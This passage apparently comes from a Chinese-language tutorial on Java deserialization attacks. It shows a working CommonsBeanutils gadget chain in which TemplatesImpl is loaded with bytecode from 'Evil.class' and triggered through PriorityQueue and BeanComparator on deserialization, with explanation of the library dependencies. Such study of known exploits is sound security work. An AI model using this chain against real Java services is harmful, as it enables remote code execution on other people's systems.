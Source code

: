 ```java
        setField("_name",template,"Von");
        setField("_bytecodes",template,new byte[][]{Files.readAllBytes(Paths.get("/Users/luyanchen/Evil.class"))});
        setField("_tfactory",template,new TransformerFactoryImpl());
        BeanComparator beanComparator = new BeanComparator("outputProperties");
        PriorityQueue priorityQueue = new PriorityQueue(beanComparator);
        setField("size",priorityQueue,2);
        setField("queue",priorityQueue,new Object[]{template,template});
        serialize(priorityQueue);
        unserialize();
    }

    public static void setField(String fieldname,Object obj,Object value) throws NoSuchFieldException, IllegalAccessException {
        Class targetclass = obj.getClass();
        Field declaredField = targetclass.getDeclaredField(fieldname);
        declaredField.setAccessible(true);
        declaredField.set(obj,value);
    }

    public static void serialize(Object obj) throws IOException {
        ObjectOutputStream oos = new ObjectOutputStream(Files.newOutputStream(Paths.get("ser.bin")));
        oos.writeObject(obj);
    }

    public static Object unserialize() throws IOException, ClassNotFoundException {
        ObjectInputStream ois = new ObjectInputStream(Files.newInputStream(Paths.get("ser.bin")));
        Object obj = ois.readObject();
        return obj;
    }
}
```

用到了`org.apache.commons.beanutils.BeanComparator`这个类，这个类又依赖于`org.apache.commons.collections.comparators.ComparableComparator`

```java
public BeanComparator( String property ) {
  this( property, ComparableComparator.getInstance() );
}

public BeanComparator( String property, Comparator comparator ) {
  setProperty( property );
  if (comparator != null) {
    this.comparator = comparator;
  } else {
    this.comparator = ComparableComparator.getInstance();
  }
}
```
